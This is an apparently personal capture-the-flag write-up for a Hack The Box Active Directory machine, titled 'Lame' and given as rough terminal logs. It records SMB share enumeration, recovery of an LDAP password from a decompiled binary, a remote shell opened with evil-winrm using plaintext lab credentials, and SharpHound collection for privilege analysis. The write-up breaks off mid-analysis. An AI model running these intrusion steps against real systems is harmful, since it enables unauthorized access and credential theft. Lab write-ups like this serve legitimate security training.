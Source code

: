 **Lame** 
──(root㉿kali)-[/home/kali]
└─# smbclient -L 10.10.11.227 -N
do_connect: Connection to 10.10.11.227 failed (Error NT_STATUS_HOST_UNREACHABLE)
                                                                                                                                 
┌──(root㉿kali)-[/home/kali]
└─# smbclient -L 10.10.11.174 -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	support-tools   Disk      support staff tools
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.174 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

  
┌──(root㉿kali)-[/home/kali]
└─# smbclient //10.10.11.174/support-tools
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 20 13:01:06 2022
  ..                                  D        0  Sat May 28 07:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 07:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 07:19:55 2022
  putty.exe                           A  1273576  Sat May 28 07:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 07:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 13:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 07:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 07:19:43 2022

		4026367 blocks of size 4096. 967496 blocks available
                                                           
#download suspicios file   
smb: \> get UserInfo.exe.zip  

#create sperate folder for extaract
──(root㉿kali)-[/home/kali]
└─# unzip UserInfo.exe.zip 
Archive:  UserInfo.exe.zip
  inflating: UserInfo.exe            
  inflating: CommandLineParser.dll   
  inflating: Microsoft.Bcl.AsyncInterfaces.dll  
  inflating: Microsoft.Extensions.DependencyInjection.Abstractions.dll  
  inflating: Microsoft.Extensions.DependencyInjection.dll  
  inflating: Microsoft.Extensions.Logging.Abstractions.dll  
  inflating: System.Buffers.dll      
  inflating: System.Memory.dll       
  inflating: System.Numerics.Vectors.dll  
  inflating: System.Runtime.CompilerServices.Unsafe.dll  
  inflating: System.Threading.Tasks.Extensions.dll  
  inflating: UserInfo.exe.config 

#move this UserInfo.exe to windows machine

#In windows machine

#download dnspy from >> https://github.com/dnSpy/dnSpy/releases
#open UserInfo.exe in dnspy
#anylze for any ldap passwords
#we got encryted password along with encryption techniq
#based on encryted techniq create script python script to decrypt password



┌──(blackdevil㉿kali)-[~/htb-writeups]
└─$ ldapsearch -x -H ldap://10.10.11.174 \
-D 'support\ldap' \
-w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
-b 'dc=support,dc=htb' \
"(cn=support)"

#port 5985 is open so we can possibly get intrective shell we will tool :evil-winrm
#Evil-WinRM is a post-exploitation tool used by attackers or penetration testers to get an interactive PowerShell shell on a remote Windows machine using WinRM (Windows Remote Management).
evil-winrm -i 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'


#Download Sharphound.exe and save it in attack machine home
#upload Sharphound on taget 
upload /home/kali/SharpHound.exe #run this on target machine shell 
.\SharpHound.exe -C all #run this one target to get the details about what previlagge user support have in system
                        #it will create zip file 20250617085423_BloodHound.zip
#download  20250617085423_BloodHound.zip in kali machine 
#run following command in target machine
download 20250617085423_BloodHound.zip

#in kali open bloodhound 
#if not installed install bloodhound and complete the set up (refer kali.org)

#upload 20250617085423_BloodHound.zip
#then anylize the data
#got DC.SUPPORT.HTB in bloodhound (analize further)
